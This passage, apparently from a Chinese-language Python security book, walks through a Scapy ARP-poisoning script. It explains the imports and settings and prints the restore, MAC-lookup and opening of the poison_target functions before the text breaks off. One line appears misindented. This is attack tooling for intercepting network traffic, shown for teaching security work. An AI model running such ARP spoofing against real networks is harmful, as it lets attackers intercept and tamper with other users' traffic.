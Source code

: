 看看这些**import**语句——Scapy 所有的力量。我们熟悉 **os** 和 **threading**，那么让我们来看看 **sys** 和 **signal**。**sys** 模块是我们在使用 Python 时始终可以访问的，它允许我们与解释器交互——在这个例子中，我们只是用它来退出 Python。**signal** 模块让你的脚本可以处理信号（在**进程间通信**（**IPC**）上下文中）。信号是发送给进程或线程的消息，告知某个事件——比如异常或除零错误。这使得我们的脚本可以处理这些信号。

接下来，我们将界面、目标 IP 和网关 IP 定义为字符串。要嗅探的数据包数量声明为整数。**conf** 属于 Scapy；我们使用刚才声明的 **interface** 变量来设置界面，并将冗余级别设置为 **0**。

现在，让我们深入了解一些函数，具体如下：

```
def restore(gateway, gwmac_addr, target, targetmac_addr):
```

```
   print("\nRestoring normal ARP mappings.")
```

```
   send(ARP(op = 2, psrc = gateway, pdst = target, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = gwmac_addr), count = 5)
```

```
   send(ARP(op = 2, psrc = target, pdst = gateway, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = targetmac_addr), count = 5)
```

```
   sys.exit(0)
```

```
def macgrab(ip_addr):
```

```
   responses, unanswered = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = ip_addr), timeout = 2, retry = 10)
```

```
   for s,r in responses:
```

```
     return r[Ether].src
```

```
     return None
```

```
def poison_target(gateway, gwmac_addr, target, targetmac_addr):
```

```
   poison_target = ARP()
```

```
   poison_target.op = 2
```
